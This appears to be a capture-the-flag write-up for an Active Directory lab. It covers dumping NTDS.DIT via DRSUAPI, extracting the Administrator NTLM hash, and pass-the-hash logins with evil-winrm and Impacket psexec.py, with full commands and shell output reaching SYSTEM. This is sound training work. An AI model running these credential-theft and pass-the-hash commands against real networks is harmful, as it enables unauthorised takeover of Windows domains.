 1. What method allowed us to dump NTDS.DIT?

see: [hackingarticle](https://www.hackingarticles.in/credential-dumping-ntds-dit/)

:arrow_right: `DRSUAPI`

2. What is the Administrators NTLM hash?

**Hash Format**: LMhash:NT/NTLMhash :arrow_right: `aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc`

:arrow_right: `0e0363213e37b94221497260b0bcb4fc`

3. What method of attack could allow us to authenticate as the user without the password?

:arrow_right: `pass the hash`

4. Using a tool called Evil-WinRM what option will allow us to use a hash?

:arrow_right: `-H`

Can be done int two ways:

1. Using Evil-WinRM:

```
$ evil-winrm -i 10.10.59.96 -u administrator -H "0e0363213e37b94221497260b0bcb4fc"

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint


*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
thm-ad\administrator
```

2. Using psexec.py:

```
$ python3 /usr/share/doc/python3-impacket/examples/psexec.py Administrator@10.10.59.96 -hashes aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.59.96.....
[*] Found writable share ADMIN$
[*] Uploading file YBIRYicO.exe
[*] Opening SVCManager on 10.10.59.96.....
[*] Creating service dJZh on 10.10.59.96.....
[*] Starting service dJZh.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1490]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```
